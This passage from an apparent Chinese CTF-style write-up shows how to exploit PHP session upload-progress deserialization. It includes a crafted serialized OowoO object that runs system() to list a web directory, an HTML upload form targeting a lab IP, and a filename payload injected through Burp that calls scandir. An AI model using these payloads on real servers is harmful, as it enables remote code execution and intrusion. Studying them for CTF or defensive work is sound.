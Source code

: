 ```php
        "field_name" => "file2",
        "name" => "bar.avi",
        "tmp_name" => NULL,
        "error" => 0,
        "done" => false,
        "start_time" => 1234567899,
        "bytes_processed" => 54554,
      ),
    )
  );
```

### upload_process机制

当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。所以可以通过`PHP_SESSION_UPLOAD_PROGRESS`来设置session。

### 利用方法

序列化一个 OowoO 为 `O:5:"OowoO":1:{s:4:"mdzz";s:31:"print(system("ls /opt/lampp/htdocs/"))";}`，然后将其作为文件名构造提交。但是文件名一般不支持这些特殊字符，所以得用一些手段，BurpSuite 来抓包并修改文件名。

编写一个 html 文件用于上传文件

```html
<form action="http://192.168.173.66/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

然后随便上传一个文件，BP 抓包后修改上传的文件名为（双引号转义是因为 HTTP 报文包里 filename 的值是用 " 来包裹的）

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```
